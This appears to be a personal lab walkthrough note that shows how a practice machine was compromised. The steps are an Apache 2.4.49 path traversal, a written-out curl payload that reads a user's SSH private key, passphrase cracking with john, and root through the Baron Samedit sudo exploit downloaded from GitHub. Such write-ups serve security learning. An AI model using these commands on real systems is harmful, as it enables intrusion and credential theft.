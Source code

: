 # Take Away
- There are other forms of SSH private keys such as `dsa`, `ecdsa`, `eced25519`.
- ![[Pasted image 20240224180528.png]]
# Exploitation
- Port `80` is running `Apache 2.4.49` which is vulnerable to directory traversal. Can be leverage to find potential users and `authorized_keys` for user `anita`.![[Pasted image 20240219190523.png]]![[Pasted image 20240219190446.png]]
- Run `curl http://192.168.205.245/cgi-bin/.%2e/.%2e/.%2e/.%2e/home/anita/.ssh/id_ecdsa` will reveal the SSH private key.![[Pasted image 20240224180110.png]]
	- Note the key file here is `id_ecdsa` !!!!
- `john` will identify the passphrase as `fireball`.![[Pasted image 20240224181248.png]]
# PrivEsc
- `linpeas` will identify that target is potentially vulnerable to `sudo Baron Samedit`.![[Pasted image 20240224185207.png]]
- Retrieve the exploit from `https://codeload.github.com/blasty/CVE-2021-3156/zip/main` and transfer to target.
- Run `make` and `./sudo-hax-me-a-sandwich 1` to get a root shell.![[Pasted image 20240224185347.png]]
